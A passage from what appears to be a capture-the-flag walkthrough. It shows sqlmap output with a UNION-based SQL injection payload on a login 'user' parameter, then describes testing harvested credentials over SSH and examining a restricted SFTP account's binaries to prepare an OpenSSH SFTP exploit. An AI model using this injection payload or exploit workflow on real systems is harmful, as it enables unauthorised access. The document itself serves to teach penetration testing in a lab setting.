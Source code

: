 ```

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 12:51:58

[12:51:58] [WARNING] provided value for parameter 'user' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[12:51:58] [INFO] resuming back-end DBMS 'mysql' 
[12:51:58] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: user (POST)
    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: user=') UNION ALL SELECT NULL,CONCAT(CONCAT('qpxzq','zPQQWvLgCFrVTpHZzmIwYAFyAUyeAKDzSvayGudn'),'qxjxq')-- pnMv&pass=booj123
---
[12:51:59] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL n 
```

SFTP Exploit
------------
Testing each of these credentials on port 2222's SSH reveals only `ftpuser` can authenticate, but we're greeted with a strange error:

![](https://image.ibb.co/iV5sR6/5.png)

In all likelihood this means the user is locked down and only able to use the SFTP service on this port.  The username itself gives this away.  A quick test confirms this: 

![](https://image.ibb.co/jqDCR6/6.png)

The fact that we know it's an older SSH version (from the nmap scan) gives us a hint that maybe there's an open issue for this version of SFTP/OpenSSH.  In fact the first result in a google search is [openssh-sftp-sploit](https://github.com/0x90/openssh-sftp-sploit) for 64-bit machines.  Enumerating the system itself reveals itself to be a 64-bit Operating System, by downloading and examining `/sbin/init`.
```
file init 

init: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4494b297e99a26caca922c24ab505a02460ef88a, stripped 
```
However, the version of SFTP running is 32-bit as confirmed by a quick look at `/proc/self/maps`, or by downloading the binary itself and examining that.  The binary itself in this case will not be in the regular `/usr/sbin` directory but in `/usr/local2`, which is confirmed by looking for any sshd.conf files.
```
Remote working directory: /usr/local2/sbin
sftp> get sshd
Fetching /usr/local2/sbin/sshd to sshd
/usr/local2/sbin/sshd                         100%  852KB 931.4KB/s   00:00 
------------------------------------------------------
root@kali:~# file sshd
sshd: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=6a85d29cb6a982a3e1f031b3f4644b018c63c599, stripped
```
